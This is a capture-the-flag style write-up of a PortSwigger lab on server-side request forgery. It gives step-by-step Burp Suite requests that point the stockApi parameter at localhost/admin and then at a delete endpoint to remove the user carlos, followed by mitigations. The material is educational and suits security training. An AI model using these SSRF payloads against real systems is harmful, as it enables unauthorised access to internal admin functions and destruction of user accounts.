

# Basic SSRF Against Local Server – PortSwigger Lab Write-up

## Lab Info

- **Lab Name:** Basic SSRF against the local server  
- **Difficulty:** Apprentice  
- **Goal:** Delete user `carlos` by exploiting SSRF to access `http://localhost/admin`  
- **Link:** [PortSwigger Web Security Academy](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)

---

## Summary of the Vulnerability

The website has a **stock check feature** that fetches data from an internal system.  
The `stockApi` parameter is vulnerable to **Server-Side Request Forgery (SSRF)**.  

Normally, you cannot directly visit `/admin` – but the **server trusts requests from itself** (localhost).  
By changing the `stockApi` to `http://localhost/admin`, the server fetches the admin panel and returns it to you.  
From there, you can find the delete URL for `carlos` and send another SSRF request to delete him.

---

## Tools Used

- Burp Suite (Community or Professional)
- PortSwigger Lab environment (built-in browser)

---

## Step-by-Step Solution

### Step 1: Confirm you cannot directly access the admin panel

Open the lab in your browser.  
Try to visit:  
```
https://YOUR-LAB-ID.web-security-academy.net/admin
```

You will see an error or "Access Denied".  
This confirms the admin interface is **not publicly accessible** – but the server might reach it internally.

---

### Step 2: Find the vulnerable stock check feature

1. Go to any product page (e.g., a jacket or a gift).
2. Click the **"Check stock"** button.
3. Intercept the request using **Burp Suite**.

The request will look something like:

```http
POST /product/stock HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 52

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

> Note the `stockApi` parameter. This is where the server fetches stock data from another system.

---

### Step 3: Send to Burp Repeater and modify the URL

1. Right-click the intercepted request → **Send to Repeater**.
2. In Repeater, change the `stockApi` parameter to:

```
http://localhost/admin
```

**URL-encoded version (what you actually put):**
```
stockApi=http%3A%2F%2Flocalhost%2Fadmin
```

3. Click **"Send"**.

---

### Step 4: Observe the admin panel appears in the response

In the response, you will see HTML for the **admin interface** – even though you can't access it normally via browser.

Look for something like:

```html
<a href="/admin/delete?username=carlos">Delete</a>
```

Or the full URL might be:

```
http://localhost/admin/delete?username=carlos
```

---

### Step 5: Delete user carlos with a second SSRF request

Now change the `stockApi` parameter to the **delete URL**:

```
http://localhost/admin/delete?username=carlos
```

**URL-encoded:**
```
stockApi=http%3A%2F%2Flocalhost%2Fadmin%2Fdelete%3Fusername%3Dcarlos
```

Send this request in Burp Repeater.

---

### Step 6: Verify the lab is solved

The lab should mark as **"SOLVED"** immediately after sending the delete request.  
You can also check the lab home page – `carlos` will no longer exist.

---

## Final Exploit Request Example

```http
POST /product/stock HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

stockApi=http%3A%2F%2Flocalhost%2Fadmin%2Fdelete%3Fusername%3Dcarlos
```

---

## Why This Worked

| Concept | Explanation |
|---------|-------------|
| **SSRF** | The server blindly fetches whatever URL is in `stockApi`. |
| **localhost bypass** | The server trusts `http://localhost/admin` because it's "self" traffic. |
| **Admin panel hidden** | Normal users can't reach `/admin`, but the server can. |
| **Delete endpoint** | Once the admin panel is visible, you find and reuse the delete link. |

---

## Mitigation (How to Fix This)

- **Allowlist** allowed URLs/IPs for `stockApi`
- **Block** internal IPs and `localhost`
- **Do not return** full internal responses to the user
- **Use** a URL allowlist based on domain, not just user input

---

## Tags

`#SSRF` `#PortSwigger` `#WebSecurity` `#BurpSuite` `#Apprentice` `#Localhost` `#BugBounty`

---
